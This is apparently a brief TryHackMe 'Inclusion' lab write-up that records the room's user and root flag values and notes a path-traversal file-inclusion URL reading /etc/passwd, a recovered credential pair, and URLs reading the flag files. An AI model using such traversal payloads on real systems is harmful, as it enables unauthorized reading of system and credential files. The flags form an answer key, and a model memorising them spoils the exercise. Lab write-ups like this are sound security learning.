 # TryHackMe Inclusion

>Saikat Karmakar | Feb 26:2021

--------------------------------------------------------------------------

# Task 2

1. user flag
```
60989655118397345799
```
2. root flag    
```
42964104845495153909
```

--
-----------
***Notes***
-----------
http://10.10.40.240/article?name=../../../../etc/passwd

```
falconfeast:rootpassword 
```
can view the contents without ssh
http://10.10.40.240/article?name=../../../../home/falconfeast/user.txt
http://10.10.40.240/article?name=../../../../root/root.txt
